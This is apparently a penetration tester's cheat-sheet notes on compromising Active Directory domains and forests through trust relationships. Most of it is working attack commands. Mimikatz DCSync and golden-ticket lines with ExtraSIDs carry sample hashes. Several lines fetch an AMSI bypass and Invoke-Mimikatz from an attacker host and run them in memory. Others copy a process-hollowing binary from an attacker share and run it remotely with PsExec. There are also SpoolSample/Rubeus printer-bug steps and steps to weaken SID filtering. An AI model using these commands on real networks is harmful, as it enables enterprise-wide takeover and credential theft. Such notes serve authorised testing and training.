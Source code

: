 ### Theory & Enumeration
    //Theory:
        //allows domains to extend Kerberos authentication to each other - TGT from A is valid in B if B trusts A
        //can be one-way or two-way
        //tree structure - common
            //trust is transitive
        **Target: Enterprise Admins
    //Enumeration Trusts:
        //Method 1:  nltest /trusted_domains
            //Primary Domain = current domain
            //Direct Outbound & Direct Inbound = bidirectional trust
        //Method 2:  ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
        //Method 3 - PowerView:  Get-DomainTrust -API
            //From that next domain (if it isn't root):  Get-DomainTrust -API -Domain <abc.com>
        //Method 4:  Get-DomainTrust
        //Further enum w/ PowerView:
            ex.  Get-DomainUser -Domain corp1.com;  Get-NetGroupMember -GroupName "Enterprise Admins"

### Exploiting within a Forest
**Should be possible by default**
**WITHIN A FOREST - EX. ops.abc.com and abc.com - NOT abcedge.com and abc.com**
    //Exploitation:
        //Method 1: After compromising current domain, can create Enterprise Admin golden ticket via ExtraSID feature
        //Method 2: If local admin on server with Unconstrained Delegation, use Rubeus & PrintSpoofer to exploit new DC
        //Method 3: If no server w/ UD (but have domain admin), add a UD server and use PrintSpoofer exploit

    1. Owning the Forest w/ Extra SIDs - getting to Enterprise Admin via golden ticket:
        //If we compromise the krbtgt account password of our current domain, we can craft a golden ticket that contains an ExtraSid with group membership of Enterprise Admins.
        //assuming we've already compromised the current domain, we can create a TGT w/ group memberships from other domains
            //the ExtraSids field within the KERB_VALIDATION_INFO structure includes SIDs that originate in a foreign domain and show membership in a trusted domain
        //in a trust relationsip, each domain has a computer account with the name of the trusted other domain
            //the shared secret is the password hash of this account - same for both sides - used to encrypt the TGT instead of krbtgt hash
        //Dumping the shared secret/hash:
            lsadump::dcsync /domain:prod.corp1.com /user:corp1$

        //Steps:
            1. Get krbtgt hash via DCSync:
                lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
            2. Get domain SIDs for both domains:
                (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/PowerView.ps1') | IEX
                Get-DomainSID -Domain prod.corp1.com
                Get-DomainSID -Domain corp1.com
            3. Create golden ticket:
                (append 519 to sid for other domain)
                //username doesn't have to be valid - 519 makes us an enterprise admin
                // /domain is origin domain
                \\192.168.49.121\visualstudio\mimikatz.exe
                kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
                //Test:
                    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd; whoami /all
                //Mimikatz in memory:
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/Invoke-Mimikatz10.ps1') | IEX
                    Invoke-Mimikatz -Command '"kerberos::golden /user:h4x /domain:ops.abc.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-519 /ptt" "exit"'
                //RCE:
                    copy \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\rdc02.abc.com\c$\windows\tasks
                    \\192.168.49.121\visualstudio\sysinternals\PsExec64.exe -accepteula \\rdc02.abc.com "c:\windows\tasks\Hollow.exe"

        //Other Method using Trust key:
            https://medium.com/r3d-buck3t/breaking-domain-trusts-with-forged-trust-tickets-5f03fb71cd72
            Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc-name
            Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator /domain: dollarcorp.moneycorp.local [child_domain] /sid: DomainAdmin_SID /sids: Enterprise_Admin_SID /rc4: Ticket HASH /service:krbtgt /target:moneycorp.local [root domain] /ticket: location to save the ticket"'
            Rubeus.exe asktgs /ticket: ticket Location /service: service type [cifs/mcorpdc.moneycorp.local] /dc: domain controller [mcorp-dc.moneycorp.local] /ptt
            dir \\mcorp-dc.moneycorp.local\c$
            
    2. Owning the Forest w/ Printers:
        //requires a server w/ Unconstrained Delegation
        //doesn't require Domain Admin (just local) - unless there's no UD server (then we could add one)
        //Steps:
            1. Confirm access to tgt DC spooler in other domain:
                ls \\rdc01\pipe\spoolss
            2. Start ticket monitor:
                Rubeus.exe monitor /interval:5 /filteruser:RDC01$
            3. Force print connection:
                .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
            4. Use TGT:
                Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
                    (can't use DC computer account for RCE, but can use it for AD replication via DCSync to get admin's hash)
                lsadump::dcsync /domain:corp1.com /user:corp1\administrator

        **if we obtain Domain Admin privileges in prod.corp1.com through some other vector, we could configure a server with unconstrained Kerberos delegation and use that to compromise any other domain in the forest.

### Exploiting Additional Forests
**Trust Boundary by Default - Typically Requires Misconfigurations**
    //Enumeration:
        1. AD Trust Between Forests:
            //similar to that between domains, but can be restricted if selective authentication is configured
        2. Enumeration:
            1. Find Trusts:
                //Check for Trusts:
                    ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
                //Check for trusts in child domains of the other forest from corp1.com:
                    Get-DomainTrust -Domain corp1.com
                //*Automated:
                    Get-DomainTrustMapping
            2. Enumerate users/groups/etc. in the trusted forest:
                Get-DomainUser -Domain corp2.com | select name
                //***Look for users with same accounts in different forests - could share creds - service accts or regular users
                //****Look for foreign group membership of local users:
                    Get-DomainForeignGroupMember
                    Get-DomainForeignGroupMember -Domain <otherDomain>
                        convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601
                    //If we compromise the local user, we could gain access to the other forest (corp2.com)

    **a trust means auth requests are forwarded between them
    **External trusts enforce SID filtering - but you can still query AD in the other domain even if you can't exploit

    //Exploitation:
            //forest trust is supposed to be a security boundary, unlike domain trust
                //by default it is not possible to compromise a trusted forest even if we have completely compromised our current forest
        1. Extra SIDs:
            //SID Filtering prevents the cross-domain attack, but it could be manually disabled (and SID History enabled)
                //Check if enabled:  netdom trust <current.Domain.com> /domain:<tgtDomain.com> /quarantine
            //To Weaken - Enable SID History:
                Get-DomainTrust -Domain corp2.com
                //From corp2.com DC:  netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
                Get-DomainTrust -Domain corp2.com
            //Try the Attack:
                //only works against SIDs w/ RID >= 1000
                    //look for custom group whose membership will allow us to compromise a user or computer (ex. a non-default admin group):
                        Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
                        //*the custom group must be a domain local security group, not a global security group (otherwise still filtered)
                lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
                Get-DomainSID -domain corp1.com
                Get-DomainSID -domain corp2.com
                kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1095350385-1831131555-2412080359 /krbtgt:22722f2e5074c2f03938f6ba2de5ae5c /sids:S-1-5-21-4182647938-3943167060-1815963754-1106 /ptt        
                c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
        2. Linked SQL Servers in the Forest:
            //Locating Servers:
                //In my domain (prod.corp1.com):  setspn -T prod -Q MSSQLSvc/*
                //In my forest (corp1.com):  setspn -T corp1 -Q MSSQLSvc/*
                //In another forest (corp2.com):  setspn -T corp2 -Q MSSQLSvc/*
            //Attempt to log in with SQL.exe ...
            //Check for links and follow the link - check for new privs like before